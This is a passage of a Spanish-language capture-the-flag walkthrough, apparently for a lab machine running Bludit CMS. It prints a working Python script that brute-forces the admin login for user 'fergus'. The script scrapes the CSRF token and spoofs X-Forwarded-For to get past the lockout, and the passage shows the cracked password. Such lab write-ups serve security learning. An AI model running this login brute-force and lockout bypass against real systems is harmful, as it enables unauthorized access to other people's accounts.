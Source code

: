 ```python
dictionary = "diccionario.txt"

def makeRequest():
    try:
        s = requests.session()
        
        p1 = log.progress("Fuerza bruta Bludit")
        p1.status("Generando los datos a enviar")
        time.sleep(1)

        with open(dictionary) as fp:
            for password in fp.read().splitlines():
                r = s.get(main_url)
                token = re.findall(r'tokenCSRF" value=(".*?")',r.text)[0].replace('"','')

                headers_data = {
                    'User-Agent' : 'Mozilla/5.0 (X11; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0',
                    'Referer' : 'http://10.10.10.191/admin/login.php',
                    'X-Forwarded-For' : password
                }

                post_data = {
                    'tokenCSRF' : token,
                    'username' : 'fergus',
                    'password' : password,
                    'save' : ''
                }

                r = s.post(main_url, headers=headers_data, data=post_data)
                p1.status("Probando credenciales: fergus - {}".format(password))

                if "Username or password incorrect" not in r.text:
                    p1.success("La contraseña del usuario fergus es: {}".format(password))
                    time.sleep(1)
                    sys.exit(0)

    except Exception as e:
        log(str(e))
        sys.exit(1)

if __name__=='__main__':
    makeRequest()
```

```bash
❯ python3 bruteforce_bypass_bludit.py
[+] Fuerza bruta Bludit: La contraseña del usuario fergus es: RolandDeschain
```

Ya tenemos la contraseña del usuario **fergus**, por lo que antes de que algo pase, vamos a guardarla para tenerla presente. Ahora vamos a ingresarlas en el panel de login.
